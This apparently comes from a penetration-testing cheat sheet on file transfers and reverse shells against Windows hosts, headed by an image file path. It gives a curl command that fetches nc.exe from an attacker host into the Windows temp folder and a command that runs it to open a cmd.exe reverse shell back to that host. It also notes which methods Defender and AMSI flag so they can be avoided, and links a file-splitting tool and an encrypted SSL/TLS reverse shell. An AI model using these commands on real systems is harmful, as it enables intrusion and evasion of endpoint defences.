 ## File transfers

Defender and AMSI protection - do not use PowerShell techniques.

Certutil is also flagged as malicious. Use curl instead.

```bash
curl http://ATTACKER_IP/nc.exe -o c:\\windows\\temp\\nc.exe

powershell.exe c:\\windows\\temp\\nc.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe 
```

## File Splitting Technique

| [https://github.com/rzwck/pydsplit/blob/master/pydsplit.py](https://github.com/rzwck/pydsplit/blob/master/pydsplit.py) |
| ---------------------------------------------------------------------------------------------------------------------- |

## Encrypted SSL/TLS C++ Reverse Shell (HTTPS)

[https://github.com/V-i-x-x/SSL-AES-Reverse-Shell](https://github.com/V-i-x-x/SSL-AES-Reverse-Shell)


